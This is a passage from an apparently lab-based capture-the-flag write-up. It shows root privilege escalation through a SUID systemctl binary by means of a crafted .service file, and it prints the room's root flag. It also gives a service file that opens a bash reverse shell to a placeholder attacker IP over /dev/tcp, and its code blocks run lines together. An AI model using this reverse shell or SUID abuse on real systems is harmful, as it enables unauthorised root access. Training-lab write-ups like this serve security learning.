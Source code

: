 > /bin/systemctl

Whenever we need to exploit a binary that is present on the system we should visit GTOBins to see if there is a simple way to exploit the service.

[GTFOBins](https://gtfobins.github.io/)

When we look at the systemctl binary file we can see there are instructions on how to exploit the service if the SUID bit is set.

![GTFOBins Exploit](images/thm-vulnversity/gtfobins-exploit.png)

### Code Explained

* Create a file with the extension .service
* Add the information that is required to create a basic service file (Service files are files that are used by systemctl for executing various tasks on the system)
* Execute the new service file we created by using the "link" and "enable" commands provided by "systemctl"

When we look at the contents that are written into the .service file we see that there is a line called **ExecStart** that specifies what command to run when the service is started. So we can change this line to read the contents of the /root/root.txt file and save it into a file in the current working directory.

[How to create systemd service unit in Linux - Linux Tutorials - Learn Linux Configuration](https://linuxconfig.org/how-to-create-systemd-service-unit-in-linux)

[systemd unit file creating a service](https://linuxhint.com/systemd_unit_file_service/)

[Create a simple systemd service unit file and run a script on boot \| Support \| SUSE](https://www.suse.com/support/kb/doc/?id=000019672)

[Why do most systemd examples contain WantedBy=multi-user.target? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/506347/why-do-most-systemd-examples-contain-wantedby-multi-user-target)

First, let's find out the directories on the system where we have permission to create files.

![Finding Writable Directories|360](images/thm-vulnversity/finding-writable-directories.png)

Let's use the "/var/tmp" directory for all the operations from here on out.

![Finding Flag on System](images/thm-vulnversity/finding-flag.png)

Once we run the service we see a file is created in our current directory and when we cat its contents we are given the flag for the root user.

> a58ff8579f0a9270368d33a9966c7fd5

**Note:** An alternate approach to getting root privileges would be to create a service file that would start a reverse shell which we could connect to using a listener on our system and then capture the flag.

The script service file for this approach would look as follows:

```
[Service]Type=simpleUser=rootExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-address>/9999 0>&1'[Install]WantedBy=multi-user.target
```

And we could run the service file using the following commands:

```
/bin/systemctl enable /var/tmp/root.service/bin/systemctl start root
```

That's all. Happy Hacking :)